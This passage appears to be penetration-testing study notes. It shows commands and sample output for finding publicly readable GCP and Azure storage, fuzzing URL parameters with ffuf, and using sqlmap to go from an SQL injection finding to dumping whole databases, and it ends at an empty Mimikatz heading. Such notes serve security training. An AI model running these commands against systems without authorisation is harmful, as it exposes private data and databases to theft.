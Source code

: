 [GCPBucketBrute](https://github.com/RhinoSecurityLabs/GCPBucketBrute)

```
$ gcpbucketbrute.py -u -k falsimentis
Generated 1216 bucket permutations.
UNAUTHENTICATED ACCESS ALLOWED: falsimentis-dev
- UNAUTHENTICATED LISTABLE (storage.objects.list)
- UNAUTHENTICATED READABLE (storage.objects.get)
$ gsutil ls gs://falsimentis-dev
gs://falsimentis-dev/01 Toddler Selachimorpha.wav
```

#### Azure Blob Storage

[basicblobfinder](https://github.com/joswr1ght/basicblobfinder)

```
$ cat namelist
falsimentis
falsimentis:falsimentis-container
falsimentis:falsimentis-container2
invalidacct:nosuchcontainer
$ basicblobfinder.py namelist
Valid storage account and container name: falsimentis:falsimentis-container Blob data objects:
https://falsimentis.blob.core.windows.net/falsimentis-container/01
Newborn Euselachii.wav
```

### ffuf

- Extremely fast enumeration tool with wordlist
- `FUZZ` will be replaced with each item in a list given

```
$ ffuf -w words.txt -u https://target.target?search=FUZZ
```

```
$ python dates.py | ffuf -w - -u https://target.tld/ticketsbyday?id=FUZZ (dates.py generates list of date strings)
$ seq -w 0 9999 | ffuf -w - -u https://target.tld/ticketsbyday?id=FUZZ
```

### SQLi

```
$ sqlmap -u 'http://www.rookaviary.com/email_search.php?search=Taylor'
```

- `'` must be used to enclose URL
- URL must not be error displaying
- if SQLi vulnerable, '--dbs' could reveal databases
- if SQLi vulnerable, ' -D <DB_NAME> --tables' could reveal tables
- if SQLi vulnerable, ' -D <DB_NAME> -T <TABLE_NAME> --columns' could reveal columns
- if SQLi vulnerable, ' -D <DB_NAME> -T <TABLE_NAME> --dump' could store whole databases

### Mimikatz
